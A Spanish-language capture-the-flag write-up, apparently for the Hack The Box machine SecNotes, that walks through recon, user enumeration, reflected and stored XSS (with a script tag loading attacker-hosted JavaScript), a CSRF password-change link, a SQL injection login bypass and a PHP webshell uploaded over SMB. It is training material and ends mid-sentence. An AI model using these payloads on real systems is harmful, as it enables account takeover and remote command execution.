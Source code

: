 -------
- Tags: #xss #xss-stored #xss-reflected #sqli #CSRF #IIS #information-leakage 
- -------
## Técnicas utilizadas
- User Enumeration (Wfuzz)  
- Reflected XSS  
- Stored XSS  
- SQL Injection  
- Cross-Site Request Forgery (CSRF) - Changing a user's password  
- IIS Exploitation (Uploading WebShell)  
- Abusing Linux subsystem  
- Information Leakage [Privilege Escalation]
## Procedimiento
![[Pasted image 20230804191554.png]]

#### Reconocimiento
Si lanzamos un escaneo con **nmap** podemos ver los siguientes puertos abiertos:
```ruby
 nmap -sCV -p80,445,8808 10.10.10.97 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 05:31 UTC
Nmap scan report for 10.10.10.97
Host is up (0.13s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2023-08-06T22:27:09-07:00
| smb2-time: 
|   date: 2023-08-07T05:27:07
|_  start_date: N/A
|_clock-skew: mean: 2h15m26s, deviation: 4h02m31s, median: -4m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.46 seconds
```

Un escaneo sobre el aplicativo web con **whatweb** nos muestra las siguientes tecnologías web corriendo por detrás:
```ruby
 whatweb 10.10.10.97
http://10.10.10.97 [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.97], Microsoft-IIS[10.0], PHP[7.2.7], RedirectLocation[login.php], X-Powered-By[PHP/7.2.7]
http://10.10.10.97/login.php [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.97], Microsoft-IIS[10.0], PHP[7.2.7], PasswordField[password], Title[Secure Notes - Login], X-Powered-By[PHP/7.2.7]
```

----------
#### User Enumeration (Wfuzz)  
Vemos que la pagina que tiene por defecto un **Login** es vulnerable a enumerarción de usuarios a través de mensajes de error:

Cuando el usuario existe, simplemente muestra un error que nos dice que la contraseña es incorrecta, sin embargo, cuando el usuario es incorrecto, nos sale el error pero ahora con el usuario. Vamos aprovecharnos de esto para enumerar un par de usuarios potenciales con la herramienta **wfuzz**:
```
# wfuzz --hs "No account found with that username." -c -t 80 -w /usr/share/SecLists/Usernames/Names/names.txt -d 'username=FUZZ&password=password' http://10.10.10.10/login.php
```

Con esto, podemos encontra el siguiente usuario valido:
![[Pasted image 20230807053843.png]]

-----------
#### Reflected XSS  
En el apartado de **Login** podemos crear una cuenta. Si creamos una e iniciamos sesión, no redirige a un dashboard:
![[Pasted image 20230807054007.png]]

Dentro del dashboard, nos da la posibilidad de crear notas. La funcion es vulnerable XSS **Reflejado**, ya que si colocamos el tipico `<script>alert("XSS")</script>` vemos que la web nos lo interpreta:
![[Pasted image 20230807054049.png]]

----------
#### Stored XSS  
En el dashboard también veiamos un apartado de **Contacto**, este tambien es vulnerable a XSS, pero esta ves a uno de tipo **Almacenado**, dado que si le mandamos un mensaje con las etiqueta `<script src="http://10.10.10.10/pwned.js"></script>` vemos como nos llega una petición a nuestro servidor:
```
Image Request My Server
```

Tambien podemos percatarnos de que si le ponemos el URL de nuestro servidor alojado en **Python** el usuario visita nuestro enlace:
```
Image Request Trought 
```

Esto es peligroso dado que podemos derivarlo a XSRF/CSRF, es decir, colocar una enlace especialmente diseñado para que al momento de visitarlo cambie la contraseña del usuario.

-----------
#### Cross-Site Request Forgery (CSRF) - Changing a user's password  
Lo primero que tendriamos que verificar es si es posible hacer el cambio de contraseña a través del metodo **GET** dado que por defecto la petición viaja por **POST**. Con burpsuite podriamos interceptar la petición e intentar cambiar el metodo para que sea por **GET** y al tramitarlo vemos que la contraseña se ha modificado exitosamente:
![[Pasted image 20230807055005.png]]

Bien, pues la cadena especialmente diseñada que le mandaremos en el formulario de contacto a **Tyler** tendria el siguiente aspecto:
```
http://10.10.10.97/change_pass.php?password=admin123&confirm_password=admin123&submit=submit
```

Una vez se la mandemos, podemos intentar iniciar sesión como **Tyler** con la contraseña definida y en efecto, vemos que la contraseña se cambio con exito:
![[Pasted image 20230807055050.png]]

------------
#### SQL Injection 
Otra forma forma de haber llegado a la cuenta privilegiada, es a traves de un **SQLi** en la parte de registro:
```
Image or 1=1-- -
```

Si los registramos como este usuario: `admin' or 1=1-- -` e iniciamos sesión, podremos ver lo mismo que ve **Tyler**:
![[Pasted image 20230807055127.png]]

------------
#### IIS Exploitation (Uploading WebShell) 
Dentro del sitio web, podemos encontrar una nota que contiene credenciales:
![[Pasted image 20230807060002.png]]

Con estas credenciales, podemos validar si el usuario es valido a nivel de sistema con **crackmapexec**:
```
# crackmapexec smb 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&'
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*& 
```

Listando el recurso compartido a nivel de red de nombre **new-site** podemos ver dentro de este los tipicos archivos que vinene con un **IIS**, asi que probablemente corresponda al **IIS** que esta corriendo en el puerto **8808**:
```
crackmapexec smb 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --shares
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*& 
SMB         10.10.10.97     445    SECNOTES         [+] Enumerated shares
SMB         10.10.10.97     445    SECNOTES         Share           Permissions     Remark
SMB         10.10.10.97     445    SECNOTES         -----           -----------     ------
SMB         10.10.10.97     445    SECNOTES         ADMIN$                          Remote Admin
SMB         10.10.10.97     445    SECNOTES         C$                              Default share
SMB         10.10.10.97     445    SECNOTES         IPC$                            Remote IPC
SMB         10.10.10.97     445    SECNOTES         new-site        READ,WRITE      
```

También nos podemos dar cuenta de que contamos con permisos de escritura, podemos aprovecharnos de esto para subir una **webshell** escrita en **PHP**, dado que cuando lanzamos el **whatweb** vimos que la web intepreta **PHP**. Vamos a subir la tipica **webshell**:
```php
<?php system($_REQUEST['cmd']); ?>
```

Nos conectamos con la herramienta **SMBClient** y ejecutamos el siguiente comando:
```
# smbclient //10.10.10.10/new-site -U 'user%password'
smb: \> put rev.php
```

Ahora podemos visitar este archivo desde el **IIS** y ejecutar comandos:
![[Pasted image 20230807061123.png]]

----------------
#### Abusing Linux subsystem  
Dentro de nuestro directorio de usuario, encontramos un **Symbolic Link**. Si le hacemos un `type` vemos que se esta ejecutando un **bash.exe** desde `C:\Windows\System32`, si lo ejecutamos podemos ver que nos introduce a un **Subsistema** de linux en el cual somos root.

#### Information Leakage [Privilege Escalation]
Si listamos el contenido del **.bash_history** podemos ver credenciales del usuario **Administrator**:
![[Pasted image 20230807061158.png]]
Si la validamos en **crackmapexec** encontramos que nos aparece un **Pwned!** asi que podemos conectarnos con 